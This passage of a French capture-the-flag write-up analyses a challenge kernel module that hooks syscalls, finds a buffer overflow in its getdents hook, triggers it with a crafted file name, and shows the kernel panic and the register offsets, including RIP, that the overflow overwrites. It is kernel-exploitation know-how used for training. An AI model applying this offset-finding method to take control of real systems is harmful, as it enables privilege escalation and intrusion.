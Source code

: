 Cette fonction assez similaire à **init_module** va simplement rétablir les fonctions par défaut des différents appels systèmes affectés.

## Recherche de vulnérabilité

Suite à l'analyse statique du module, on a pu réperer une potentielle vulnérabilité de buffer overflow présente dans la fonction remplaçant le syscall "**getdents** / **getdents64**".

Nous allons donc créer un fichier de nom "ecsc_flag_" avec un pattern reconnaissable pour déterminer l'offset des différents éléments qu'on pourrait écraser.

Au hasard: ```AAAAAAAABBBBBBBBCCCCCCCCDDDDDDDDEEEEEEEEFFFFFFFFGGGGGGGGHHHHHHHHIIIIIIIIJJJJJJJJKKKKKKKKLLLLLLLLMMMMMMMMNNNNNNNNOOOOOOOOPPPPPPPPQQQQQQQQRRRRRRRRSSSSSSSSTTTTTTTTUUUUUUUUVVVVVVVVWWWWWWWWXXXXXXXXYYYYYYYYZZZZZZZZ```

On crée donc ce fichier, puis on exécute un **ls** pour trigger le syscall getdents.

Boum, un kernel panic quel plaisir.

```
general protection fault: 0000 [#1] NOPTI
Modules linked in: ecsc(O)
CPU: 0 PID: 53 Comm: ls Tainted: G           O    4.14.167 #11
task: ffff9ca6c2219100 task.stack: ffffa34c4009c000
RIP: 0010:0x4e4e4e4e4e4e4d4d
RSP: 0018:ffffa34c4009ff38 EFLAGS: 00000282
RAX: 0000000000000120 RBX: 4a4a4a4a4a4a4949 RCX: 0000000000000000
RDX: 00007ffd5d9a678e RSI: ffffa34c4009ff9b RDI: 00007ffd5d9a66b3
RBP: 4d4d4d4d4d4d4c4c R08: ffffa34c4009fed0 R09: ffffffffc03e0024
R10: ffffa34c4009fec0 R11: 5858585757575757 R12: 4b4b4b4b4b4b4a4a
R13: 4c4c4c4c4c4c4b4b R14: 0000000000000000 R15: 0000000000000000
FS:  0000000000000000(0000) GS:ffffffffb5036000(0000) knlGS:0000000000000000
CS:  0010 DS: 0000 ES: 0000 CR0: 0000000080050033
CR2: 00000000018c2138 CR3: 00000000022a6000 CR4: 00000000000006b0
Call Trace:
Code:  Bad RIP value.
RIP: 0x4e4e4e4e4e4e4d4d RSP: ffffa34c4009ff38
---[ end trace 717bbb6220987e42 ]---
Kernel panic - not syncing: Fatal exception
Kernel Offset: 0x33600000 from 0xffffffff81000000 (relocation range: 0xffffffff80000000-0xffffffffbfffffff)
```

On peut voir qu'on écrase pas mal de registres: **RBX**, **R12**, **R13**, **RBP**, et le meilleur pour la fin **RIP** !
Grâce à notre pattern reconnaissable, on peut déterminer l'offset de chacun des registres:

* RBX: Offset 70
* R12: Offset 78
* R13: Offset 86
* RBP: Offset 94
* RIP: Offset 102

Super, on peut contrôler le flux d'exécution du module kernel !
Mais que peut-on faire avec ?
